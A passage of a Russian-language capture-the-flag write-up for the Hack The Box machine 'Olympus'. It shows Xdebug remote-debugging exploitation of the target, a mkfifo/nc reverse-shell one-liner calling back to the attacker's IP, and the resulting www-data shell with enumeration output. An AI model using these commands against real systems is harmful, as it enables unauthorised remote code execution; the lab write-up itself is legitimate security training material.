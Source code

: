 ```text
root@kali:~# curl -H 'X-Forwarded-For: 10.10.14.14' 'http://10.10.10.83/index.php?XDEBUG_SESSION_START=phpstorm'
64 bytes from 10.10.14.14: icmp_seq=0 ttl=62 time=68.001 ms
64 bytes from 10.10.14.14: icmp_seq=1 ttl=62 time=68.690 ms
--- 10.10.14.14 ping statistics ---
2 packets transmitted, 2 packets received, 0% packet loss
round-trip min/avg/max/stddev = 68.001/68.346/68.690/0.345 ms
```

Обратим внимание на base64-свойство `CDATA` (на 2 code-секции выше), которое при декодирование даст:
```text
root@kali:~# base64 -d <<< 'cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA2OC4wMDEvNjguMzQ2LzY4LjY5MC8wLjM0NSBtcw=='
round-trip min/avg/max/stddev = 68.001/68.346/68.690/0.345 ms
```

В красках все выглядело так (красные числа — порядок активности панелей):

[![xdebug-exploit-poc.png]({{ "/img/htb/boxes/olympus/xdebug-exploit-poc.png" | relative_url }})]({{ "/img/htb/boxes/olympus/xdebug-exploit-poc.png" | relative_url }})

На этом считаю тест успешно завершенным, можно переходить к боевым действиям.

### Reverse-Shell [Олимпия]
Для получения сессии повторим операцию выше, только на этот раз в качестве пейлоада для Xdebug укажем bash-реверс-шелл:
```text
...
>> system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 31337 >/tmp/f')
...
```

Ии ловим ответ:
```text
root@kali:~# nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.83.
Ncat: Connection from 10.10.10.83:54230.

/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ uname -a
Linux f00ba96171c5 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) x86_64 GNU/Linux
```

Чтобы не мучить тебя долгими листингами, скажу на словах: нужно было погулять по файловой системе и наткнуться на каталог `/home/zeus/airgeddon/captured`:
```text
$ ls -la /home/zeus/airgeddon/
total 1100
drwxr-xr-x 1 zeus zeus   4096 Apr  8 10:56 .
drwxr-xr-x 1 zeus zeus   4096 Apr  8 10:56 ..
-rw-r--r-- 1 zeus zeus    264 Apr  8 00:58 .editorconfig
drwxr-xr-x 1 zeus zeus   4096 Apr  8 00:59 .git
-rw-r--r-- 1 zeus zeus    230 Apr  8 00:58 .gitattributes
drwxr-xr-x 1 zeus zeus   4096 Apr  8 00:59 .github
-rw-r--r-- 1 zeus zeus     89 Apr  8 00:58 .gitignore
-rw-r--r-- 1 zeus zeus  15855 Apr  8 00:58 CHANGELOG.md
-rw-r--r-- 1 zeus zeus   3228 Apr  8 00:58 CODE_OF_CONDUCT.md
```